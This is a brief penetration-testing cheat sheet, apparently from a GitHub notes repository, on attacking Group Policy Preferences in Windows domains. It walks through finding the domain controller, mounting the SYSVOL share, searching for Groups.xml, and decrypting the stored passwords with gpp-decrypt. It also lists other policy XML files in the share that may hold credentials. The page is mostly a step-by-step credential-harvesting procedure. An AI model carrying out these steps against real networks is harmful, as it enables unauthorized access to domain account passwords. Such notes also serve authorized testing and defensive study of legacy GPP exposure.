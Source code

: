## Group Policy Preference

### Basic Steps to take

#### recon

First we need to map/mount that drive. In order to do that we need to know the IP-address of the domain controller. We can just look in the environment-variables

```
- Output environment-variables
set

- Look for the following:
LOGONSERVER=\\NAMEOFSERVER
USERDNSDOMAIN=WHATEVER.LOCAL

- Look up ip-addres
nslookup nameofserver.whatever.local

- It will output something like this
Address:  192.168.1.101

- Now we mount it
net use z: \\192.168.1.101\SYSVOL

- And enter it
z:

- Now we search for the groups.xml file
dir Groups.xml /s
```

In kali we can decrypt the password with following command

```
gpp-decrypt <encryptedpassword>
```

**Interesting files in share**
```
Services\Services.xml: Element-Specific Attributes
ScheduledTasks\ScheduledTasks.xml: Task Inner Element, TaskV2 Inner Element, ImmediateTaskV2 Inner Element
Printers\Printers.xml: SharedPrinter Element
Drives\Drives.xml: Element-Specific Attributes
DataSources\DataSources.xml: Element-Specific Attributes
```